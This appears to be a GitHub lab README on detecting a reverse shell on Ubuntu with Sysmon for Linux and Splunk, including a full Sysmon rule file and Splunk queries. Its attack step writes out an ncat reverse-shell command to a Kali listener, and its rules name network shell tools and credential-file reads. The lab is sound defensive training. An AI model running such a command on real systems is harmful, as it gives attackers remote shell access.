



# 🧠 Sysmon for Linux + Splunk: Suspicious Process Detection (Reverse Shell Lab)

## 🎯 Objective
Detect and investigate suspicious process execution on an Ubuntu server using **Sysmon for Linux** and **Splunk**.  
Simulate an attack by running a **reverse shell**, then validate detection in Splunk.

---

## 🧱 Lab Architecture

Kali (Attacker) ── reverse shell ──> Ubuntu Agent (Sysmon + Splunk Forwarder) ── logs ──> Splunk SIEM

---

## 🌐 Lab Setup (My IPs)
| Machine | Role | IP |
|---|---|---|
| Splunk SIEM | Splunk Enterprise | 192.168.80.130 |
| Ubuntu Agent | Sysmon + Splunk Forwarder | 192.168.80.133 |
| Kali | Attacker | 192.168.80.135 |

---

## ✅ Task 1 — Install Sysmon for Linux (Ubuntu Agent)

> Sysmon writes events into **/var/log/syslog** on Linux.

```bash
wget https://packages.microsoft.com/config/ubuntu/24.04/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install -y sysmonforlinux
sysmon -v
```
```bash
Task 2 — Configure Sysmon (XML Rules)
Create folder + config:
sudo mkdir -p /etc/sysmon
sudo nano /etc/sysmon/sysmon-config.xml
```bash
```<!--
    SysmonForLinux

    Copyright (c) Microsoft Corporation

    All rights reserved.

    MIT License

    Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the ""Software""), to deal in the Software without
 restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom th
e Software is furnished to do so, subject to the following conditions:

    The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

    THE SOFTWARE IS PROVIDED *AS IS*, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE
 AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISI
NG FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
-->
<Sysmon schemaversion="4.81">
  <EventFiltering>
    <!-- Event ID 1 == ProcessCreate -->
    <RuleGroup name="" groupRelation="or">
      <ProcessCreate onmatch="include">
        <Rule name="TechniqueID=T1021.004,TechniqueName=Remote Services: SSH" groupRelation="and">
          <Image condition="end with">ssh</Image>
          <CommandLine condition="contains">ConnectTimeout=</CommandLine>
          <CommandLine condition="contains">BatchMode=yes</CommandLine>
          <CommandLine condition="contains">StrictHostKeyChecking=no</CommandLine>
          <CommandLine condition="contains any">wget;curl</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1027.001,TechniqueName=Obfuscated Files or Information: Binary Padding" groupRelation="and">
          <Image condition="is">/bin/dd</Image>
          <CommandLine condition="contains all">dd;if=</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1105,TechniqueName=Ingress Tool Transfer - Ncat" groupRelation="and">
            <Image condition="end with">ncat</Image>
            <Image condition="end with">nc</Image>
            <CommandLine condition="contains">-e</CommandLine> <!-- Detects reverse shell option -->
            <CommandLine condition="contains any">/bin/bash;/bin/sh;/bin/dash</CommandLine> <!-- Shell execution -->
        </Rule>

        <Rule name="TechniqueID=T1033,TechniqueName=System Owner/User Discovery" groupRelation="or">
          <CommandLine condition="contains">/var/run/utmp</CommandLine>
          <CommandLine condition="contains">/var/log/btmp</CommandLine>
          <CommandLine condition="contains">/var/log/wtmp</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1053.003,TechniqueName=Scheduled Task/Job: Cron" groupRelation="or">
          <Image condition="end with">crontab</Image>
        </Rule>
        <Rule name="TechniqueID=T1059.004,TechniqueName=Command and Scripting Interpreter: Unix Shell" groupRelation="or">
          <Image condition="end with">/bin/bash</Image>
          <Image condition="end with">/bin/dash</Image>
          <Image condition="end with">/bin/sh</Image>
        </Rule>
        <Rule name="TechniqueID=T1070.006,TechniqueName=Indicator Removal on Host: Timestomp" groupRelation="and">
          <Image condition="is">/bin/touch</Image>
          <CommandLine condition="contains any">-r;--reference;-t;--time</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1087.001,TechniqueName=Account Discovery: Local Account" groupRelation="or">
          <CommandLine condition="contains">/etc/passwd</CommandLine>
          <CommandLine condition="contains">/etc/sudoers</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1105,TechniqueName=Ingress Tool Transfer" groupRelation="or">
          <Image condition="end with">wget</Image>
          <Image condition="end with">curl</Image>
          <Image condition="end with">ftpget</Image>
          <Image condition="end with">tftp</Image>
          <Image condition="end with">lwp-download</Image>
        </Rule>
        <Rule name="TechniqueID=T1123,TechniqueName=Audio Capture" groupRelation="and">
          <Image condition="contains">/bin/aplay</Image>
          <CommandLine condition="contains">arecord</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1136.001,TechniqueName=Create Account: Local Account" groupRelation="or">
          <Image condition="end with">useradd</Image>
          <Image condition="end with">adduser</Image>
        </Rule>
        <Rule name="TechniqueID=T1203,TechniqueName=Exploitation for Client Execution" groupRelation="and">
          <User condition="is">root</User>
          <LogonId condition="is">0</LogonId>
          <CurrentDirectory condition="is">/var/opt/microsoft/scx/tmp</CurrentDirectory>
          <CommandLine condition="contains">/bin/sh</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1485,TechniqueName=Data Destruction" groupRelation="and">
          <Image condition="is">/bin/dd</Image>
          <CommandLine condition="contains all">dd;of=;if=</CommandLine>
          <CommandLine condition="contains any">if=/dev/zero;if=/dev/null</CommandLine>
        </Rule>
        <Rule name="TechniqueID=T1505.003,TechniqueName=Server Software Component: Web Shell" groupRelation="and">
          <Image condition="contains any">whoami;ifconfig;/usr/bin/ip;/bin/uname</Image>
          <ParentImage condition="contains any">httpd;lighttpd;nginx;apache2;node;dash</ParentImage>
        </Rule>
        <Rule name="TechniqueID=T1543.002,TechniqueName=Create or Modify System Process: Systemd Service" groupRelation="or">
          <Image condition="end with">systemd</Image>
        </Rule>
        <Rule name="TechniqueID=T1548.001,TechniqueName=Abuse Elevation Control Mechanism: Setuid and Setgid" groupRelation="or">
          <Image condition="end with">chmod</Image>
          <Image condition="end with">chown</Image>
          <Image condition="end with">fchmod</Image>
          <Image condition="end with">fchmodat</Image>
          <Image condition="end with">fchown</Image>
          <Image condition="end with">fchownat</Image>
          <Image condition="end with">fremovexattr</Image>
          <Image condition="end with">fsetxattr</Image>
          <Image condition="end with">lchown</Image>
          <Image condition="end with">lremovexattr</Image>
          <Image condition="end with">lsetxattr</Image>
          <Image condition="end with">removexattr</Image>
          <Image condition="end with">setuid</Image>
          <Image condition="end with">setgid</Image>
          <Image condition="end with">setreuid</Image>
          <Image condition="end with">setregid</Image>
        </Rule>
      </ProcessCreate>
    </RuleGroup>
    <!-- Event ID 3 == NetworkConnect Detected -->
    <RuleGroup name="" groupRelation="or">
      <NetworkConnect onmatch="include">
        <Rule name="TechniqueID=T1105,TechniqueName=Ingress Tool Transfer" groupRelation="or">
          <Image condition="end with">wget</Image>
          <Image condition="end with">curl</Image>
          <Image condition="end with">ftpget</Image>
          <Image condition="end with">tftp</Image>
          <Image condition="end with">lwp-download</Image>
        </Rule>
      </NetworkConnect>
    </RuleGroup>
    <!-- Event ID 5 == ProcessTerminate -->
    <RuleGroup name="" groupRelation="or">
      <ProcessTerminate onmatch="include" />
    </RuleGroup>
    <!-- Event ID 9 == RawAccessRead -->
    <RuleGroup name="" groupRelation="or">
      <RawAccessRead onmatch="include" />
    </RuleGroup>
    <!-- Event ID 11 == FileCreate -->
    <RuleGroup name="" groupRelation="or">
      <FileCreate onmatch="include">
        <Rule name="TechniqueID=T1037,TechniqueName=Boot or Logon Initialization Scripts" groupRelation="or">
          <TargetFilename condition="begin with">/etc/init/</TargetFilename>
          <TargetFilename condition="begin with">/etc/init.d/</TargetFilename>
          <TargetFilename condition="begin with">/etc/rc.d/</TargetFilename>
        </Rule>
        <Rule name="TechniqueID=T1053.003,TechniqueName=Scheduled Task/Job: Cron" groupRelation="or">
          <TargetFilename condition="is">/etc/cron.allow</TargetFilename>
          <TargetFilename condition="is">/etc/cron.deny</TargetFilename>
          <TargetFilename condition="is">/etc/crontab</TargetFilename>
          <TargetFilename condition="begin with">/etc/cron.d/</TargetFilename>
          <TargetFilename condition="begin with">/etc/cron.daily/</TargetFilename>
          <TargetFilename condition="begin with">/etc/cron.hourly/</TargetFilename>
          <TargetFilename condition="begin with">/etc/cron.monthly/</TargetFilename>
          <TargetFilename condition="begin with">/etc/cron.weekly/</TargetFilename>
          <TargetFilename condition="begin with">/var/spool/cron/crontabs/</TargetFilename>
        </Rule>
        <Rule name="TechniqueID=T1105,TechniqueName=Ingress Tool Transfer" groupRelation="or">
          <Image condition="end with">wget</Image>
          <Image condition="end with">curl</Image>
          <Image condition="end with">ftpget</Image>
          <Image condition="end with">tftp</Image>
          <Image condition="end with">lwp-download</Image>
        </Rule>
        <Rule name="TechniqueID=T1543.002,TechniqueName=Create or Modify System Process: Systemd Service" groupRelation="or">
          <TargetFilename condition="begin with">/etc/systemd/system</TargetFilename>
          <TargetFilename condition="begin with">/usr/lib/systemd/system</TargetFilename>
          <TargetFilename condition="begin with">/run/systemd/system/</TargetFilename>
          <TargetFilename condition="contains">/systemd/user/</TargetFilename>
        </Rule>
      </FileCreate>
    </RuleGroup>
    <!--Event ID 23 == FileDelete -->
    <RuleGroup name="" groupRelation="or">
      <FileDelete onmatch="include" />
    </RuleGroup>
  </EventFiltering>
</Sysmon>

Paste your XML ruleset, save, then install:
```
```bash
sudo sysmon -i /etc/sysmon/sysmon-config.xml
sudo sysmon -c
```
Verify Sysmon events are written:
```bash
sudo tail -f /var/log/syslog | grep -i sysmon
```
ask 3 — Forward Logs to Splunk (Ubuntu Agent)
Edit forwarder inputs:
```bash
sudo nano /opt/splunkforwarder/etc/system/local/inputs.conf
Add:

[monitor:///var/log/syslog]
disabled = false
sourcetype = syslog
index = linux_os_logs
Restart forwarder:

sudo /opt/splunkforwarder/bin/splunk restart
```
Task 4 — Splunk Setup (Splunk Server)
Enable receiving on 9997
Settings → Forwarding & Receiving → Configure Receiving → Add 9997


Create index:
Settings → Indexes → New Index → linux_os_logs
Task 5 — Attack Simulation (Reverse Shell)
On Kali (listener)
```bash
sudo apt install -y ncat
ncat -lvnp 4444
```
On Ubuntu Agent (connect back)
```bash
sudo apt install -y ncat
ncat 192.168.80.135 4444 -e /bin/bash
🔍 Task 6 — Verification (Ubuntu Agent)
sudo ss -tnp | grep 4444
sudo lsof -i :4444
```
📊 Task 7 — Detection in Splunk
Confirm data is coming
```bash
index=linux_os_logs
Hunt reverse shell tools
index=linux_os_logs ("ncat" OR "nc ")
Make it readable (extract fields)
index=linux_os_logs "sysmon"
| rex "Image\">(?<Image>[^<]+)"
| rex "ParentImage\">(?<ParentImage>[^<]+)"
| rex "CommandLine\">(?<CommandLine>[^<]+)"
| table _time host Image ParentImage CommandLine
| sort 
```
🧭 MITRE ATT&CK Mapping
T1059 — Command and Scripting Interpreter (Unix Shell)

T1105 — Ingress Tool Transfer (commonly related tooling)

Reverse Shell behavior — suspicious process + network activity correlation

✅ Outcome
Sysmon logged suspicious process execution (Image / ParentImage / CommandLine)

Logs forwarded to Splunk successfully

Reverse shell activity visible for investigation





